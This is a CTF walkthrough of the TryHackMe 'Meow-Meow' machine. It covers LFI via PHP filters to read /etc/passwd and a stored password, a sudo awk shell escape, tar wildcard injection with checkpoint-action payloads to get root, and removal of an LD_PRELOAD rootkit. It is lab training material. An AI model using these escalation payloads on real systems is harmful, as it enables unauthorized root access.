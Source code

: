 ```yaml
---
title: Meow-Meow walkthrough
date: 2024-11-24 04:15:00 +0530
categories: [Writeup, TryHackMe]
tags: [lfi, privesc, tar wildcard, rootkit, user space rootkit]
image:
  path: /assets/writeup/tryhackme/meowmeow/meowmeow.png
  alt: Backtrack image
---
```

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
#### This is a medium level machine on tryhackme. In order to gain root access first we will use **LFI** to gain bat user access after that use the **awk** to gain devilx user shell then user **tar wildcard injection** to gain root and there we need to bypass the **rootkit** to gain root flag.
{: data-toc-skip=''}
<!-- markdownlint-restore -->
## **Enumeration**
### NMAP Scan
```console
Nmap scan report for 10.10.171.71
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
2200/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:34:c5:d4:c0:13:9e:1b:9f:e5:87:66:88:83:b0:65 (RSA)
|   256 b2:d8:ca:85:c3:14:a9:c1:73:46:03:c5:4c:38:82:48 (ECDSA)
|_  256 1d:01:08:e4:e7:2a:29:8a:00:ee:12:2d:6f:ef:f4:c9 (ED25519)
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/bat.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have 2 ports open
- 2200 - SSH
- 8000 - webapp
### Port 8000
- This was a very minimal web application.
- But the nmap scan shows there is a disallowed entry `/bat.txt`
## bat user shell
### Contents of bat.txt
```console
text/gb2312
------------------------------------------------------------------------------------------------------
YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA=
------------------------------------------------------------------------------------------------------
```
- as the hint(gb2312) suggests it is a chinese character(from wikipedia (https://en.wikipedia.org/wiki/GB_2312)) for decoding no online tool found so made this small python script

```py
import base64

# Your Base64-encoded string
base64_string = "YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA="

# Decode the Base64 string
decoded_bytes = base64.b64decode(base64_string)

# Decode the bytes to a GB2312-encoded string
gb2312_text = decoded_bytes.decode("gb2312")

print(gb2312_text)
```
### Output
```console
bat@MSI:~$ python3 a.py
bat 用户的密码最近被重置，并作为备份存储在当前用户主目录中的 backup.txt 中
```
- After translating
```
The bat user's password was recently reset and is stored as a backup in backup.txt in the current user's home directory.
```
- This text hint us that there is lfi somewhere lets try to find it
- Using `arjun` for finding parameters.

```console
kali@kali ~ → arjun -u http://10.10.171.71:8000/            
    _
   /_| _ '
  (  |/ /(//) v2.2.6
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: view, based on: body length
[+] Parameters found: view
```

- So lets try to access /etc/passwd
![1.png](/assets/writeup/tryhackme/meowmeow/1.png)
- We got invalid request maybe there are some filters in place.
- Lets try to bypass it through `php filters` payload
![2.png](/assets/writeup/tryhackme/meowmeow/2.png)
- We got base64 encoded response let's dcode it and see whats inside
```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
devilx:x:1000:1000:meowmeow:/home/devilx:/bin/bash
bat:x:1001:1001::/home/bat:/bin/sh
```
- We found current user's (www-data) home directory and the place where bat's password is stored. i.e. /var/www/backup.txt
![3.png](/assets/writeup/tryhackme/meowmeow/3.png)
- Another base64 but with rot 21
![4.png](/assets/writeup/tryhackme/meowmeow/4.png)

- These are the SSH creds lets login using SSH running on port 2200.
### user flag
- In the home directory of devilx user there is user.txt which is also accessible by bat. So in other words we got user.txt

## devilx user shell
- after using `sudo -l` we can see that bat user can use awk as devilx user so lets use this
```console
$ sudo -l
Matching Defaults entries for bat on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bat may run the following commands on meowmeow:
    (devilx) NOPASSWD: /usr/bin/awk
```
- payload used: `sudo -u devilx awk 'BEGIN {system("/bin/bash")}'`

## shell as root
- here if we do `sudo -l` we can see that devilx user can run `/opt/backup/backup.sh` as root
```console
devilx@meowmeow:/home/devilx$ sudo -l
Matching Defaults entries for devilx on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User devilx may run the following commands on meowmeow:
    (root) NOPASSWD: /opt/backup/backup.sh
```
### contents of backup.sh
```sh
#!/bin/bash
/bin/tar -cf backup.tar *
```
- After searching a little on google we can find a way to exploit this
- payload used:
```console
cd /home/devilx
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /opt/backup/backup.sh
```
![5.png](/assets/writeup/tryhackme/meowmeow/5.png)
### root flag
- although we are root we can't cat /root/root.txt
- there is an another file with name `important-notice.txt`
```
Now you have to find a rootkit which is harming our servers
```
- So due to this rootkit we are not able to cat /root/root.txt . We need to bypass this to get flag
- Let's check if it is user space rootkit using `ldd /bin/ls`
```console
root@meowmeow:/root# ldd /bin/ls
        linux-vdso.so.1 (0x00007ffd2b1b4000)
        /usr/local/lib/kit.so (0x00007f5fb120e000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f5fb0fe6000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5fb0bf5000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f5fb09f1000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f5fb0780000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5fb1632000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f5fb0561000)
```

- now finally we find kit.so that looks odd and its name also suggests that it is the rootkit harming sytem (preventing us from reading /root/root.txt)
- now we will just try to remove it by moving it from /lib to another directory
- after moving it we were able to get flag
```console
root@meowmeow:/root# mv /usr/local/lib/kit.so /tmp/
root@meowmeow:/root# cat root.txt 
ERROR: ld.so: object '/usr/local/lib/kit.so' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
<REDACTED>
root@meowmeow:/root#
```













